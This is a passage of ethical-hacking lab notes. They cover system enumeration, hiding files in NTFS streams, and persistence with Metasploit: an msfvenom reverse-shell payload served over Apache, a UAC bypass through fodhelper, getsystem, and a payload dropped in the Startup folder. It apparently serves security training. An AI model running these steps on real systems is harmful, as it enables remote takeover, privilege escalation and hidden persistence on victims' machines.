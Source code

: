 + cat /etc/crontab
+ ps -ef
  + View current processes along with the PID
+ find / -name "*.txt" -ls 2> /dev/null
  + view all the .txt files on the system
+ route -n
  + view the host/network names in numeric form
+ find / -perm -4000 -ls 2> /dev/null
  + view the SUID executable binaries

## Lab 3: Maintain Remote Access and Hide Malicious Activities

### Task 3: Hide Files using NTFS Streams

+ Open Command Prompt
+ Type the following commands
  
        notepad [name of file]
        Create the file when prompted
        notepad [name of file]:[stream name]
        type [file to embed] [name of file]:[stream name]

### Task 6: Maintain Persistence by Abusing Boot or Logon Autostart Execution (may extract portion)

+ Open Terminal
+ sudo su
+ cd
+ msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Desktop/exploit.exe
+ mkdir /var/www/html/share
+ chmod -R 755 /var/www/html/share
+ chown -R www-data:www-data /var/www/html/share
+ cp /home/attacker/Desktop/exploit.exe /var/www/html/share/
+ service apache2 start
+ msfconsole
+ use exploit/multi/handler
+ set payload windows/meterpreter/reverse_tcp
+ set lhost 10.10.1.13
+ set lport 444
+ run
+ Open http://10.10.1.13/share on Windows 11 browser
+ Download the exploit.exe
+ Execute the exploit.exe file
+ Go back to Parrot and observe meterpreter shell
+ getuid
+ background
+ use exploit/windows/local/bypassuac_fodhelper
+ set session 1
+ show options
+ set LHOST 10.10.1.13
+ set TARGET 0
+ exploit
+ getsystem -t 1
+ getuid
+ cd "C:\\ProgramData\\Start Menu\\Programs\\Startup"
+ pwd
+ In a new terminal execute the following commands
  + msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=8080 -f exe > payload.exe
+ upload /home/attacker/payload.exe
+ Login to the Windows 11 Admin user and restart the machine
+ In a new terminal execute the following commands
  + sudo su